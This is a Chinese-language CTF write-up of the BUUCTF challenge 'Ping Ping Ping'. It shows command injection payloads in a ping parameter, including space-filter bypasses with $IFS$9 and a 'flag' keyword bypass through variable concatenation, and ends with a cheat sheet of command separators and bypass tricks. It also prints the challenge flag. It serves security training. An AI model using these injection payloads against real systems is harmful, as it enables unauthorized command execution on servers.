





# [GXYCTF2019]Ping Ping Ping
点击题目链接 http://45b617f0-d180-45e7-9b84-d236b06c36bd.node5.buuoj.cn:81/

将地址赋给 ip 后会 ping 这个ip

那么我们尝试执行命令：

?ip=1; ls

过滤了空格

利用 $IFS$9 进行过滤：

通过回显我们可以知道在当前目录有flag.php和index.php文件。

尝试查看flag,php：

?ip=1;$IFS$9cat$IFS$9flag.php

flag被过滤了？

那看看index.php怎么说：

?ip=1;$IFS$9cat$IFS$9index.php

我们知道：

preg_match("/.*f.*l.*a.*g.*/", $ip)这个的意思是匹配到按flag这个顺序的所有字符

那么我们直接通过变量拼接进行绕过尝试查看flag,php:

?ip=1;a=g;cat$IFS$9fla$a.php

查看器中发现被注释掉的flag
提交flag{f33338dc-370f-41d8-88e6-01e3f1197718}

## 1、命令联合执行

    ; 前面的执行完执行后面的
    | 管道符，上一条命令的输出，作为下一条命令的参数（显示后面的执行结果）
    || 当前面的执行出错时（为假）执行后面的
    & 将任务置于后台执行
    && 前面的语句为假则直接出错，后面的也不执行，前面只能为真
    %0a （换行）
    %0d （回车）

## 2、命令绕过空格

    当我们执行系统命令时，不免会遇到空格，如cat flag.txt，当空格被程序过滤时，便需要利用以下字符尝试代替绕过：

    <

    ${IFS}

    $IFS$9

    %09

    即：
     

        cat<flag.php
         
        cat${IFS}flag.php
         
        cat$IFS$9flag.php

## 3、变量拼接

    比如我们想执行 cat flag.php但对方过滤了flag字符串

    如：preg_match("/.*f.*l.*a.*g.*/", $ip)这个的意思是匹配到按flag这个顺序的所有字符

    那么我们就可以利用变量拼接绕过：

    ?a=g;cat fla$a.php即可。
